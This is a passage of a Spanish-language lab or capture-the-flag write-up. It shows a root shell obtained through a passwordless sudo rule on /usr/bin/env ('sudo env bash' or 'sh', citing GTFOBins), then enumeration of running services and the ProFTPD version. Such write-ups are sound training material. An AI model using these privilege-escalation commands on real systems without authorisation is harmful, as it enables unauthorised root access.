 Se observa que el usuario `hbracho` puede ejecutar el comando `/usr/bin/env` con permisos de root sin necesidad de contraseña. 

Utilizando [GTFOBins](https://gtfobins.github.io/) se puede encontrar una forma de obtener una shell con permisos de root utilizando el comando `sudo env`. Se puede intentar ejecutar el comando `sudo env` con el argumento `bash` para obtener una shell bash con permisos de root:

```bash
sudo env bash
```
En caso que la máquina no tenga `bash`, también puede abrirse una shell con permisos de root utilizando el comando `sudo env` con el argumento `sh`:

```bash
sudo env sh
```

En cualquier caso el resultado es el mismo, se obtiene una shell con permisos de root.

![Acceso al sistema con el usuario `root`](./assets/root.png)

Se ha obtenido acceso root a la máquina.

### Exploración de la máquina

En primer lugar, una vez que tenemos acceso root, se puede determinar si el resultado de `nmap` es correcto. Se puede utilizar el comando `service` para listar los servicios que se están ejecutando en la máquina:

```bash
service --status-all'
```

Que muestra los servicios de la máquina:

```
 [ - ]  dbus
 [ ? ]  hwclock.sh
 [ + ]  named
 [ + ]  nginx
 [ - ]  procps
 [ + ]  proftpd
 [ + ]  ssh
 [ - ]  sudo
```

Se observa que los servicios `named`, `nginx`, `proftpd` y `ssh` están activos en la máquina, lo cual coincide con el resultado de `nmap`. Sin embargo, el resultado de `nmap` no mostró la version de `proftpd`. Podemos obtener la version de `proftpd` utilizando el comando `proftpd -v`:

```
root@39a4fb3fb0dc:/# proftpd -v
ProFTPD Version 1.3.8
```

